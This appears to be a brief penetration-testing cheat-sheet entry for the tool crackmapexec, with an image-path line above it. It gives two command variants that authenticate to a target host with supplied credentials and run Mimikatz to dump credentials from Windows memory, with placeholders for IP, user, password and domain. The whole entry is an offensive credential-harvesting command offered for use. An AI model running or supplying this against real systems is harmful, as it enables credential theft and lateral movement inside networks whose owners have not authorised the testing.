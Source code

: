 # crackmapexec

crackmapexec <IP> -u <username> -p <password> -d <domanname> --mimikatz

(or)

crackmapexec <IP> -u <username> -p <password> -d <domanname> -M Mimikatz
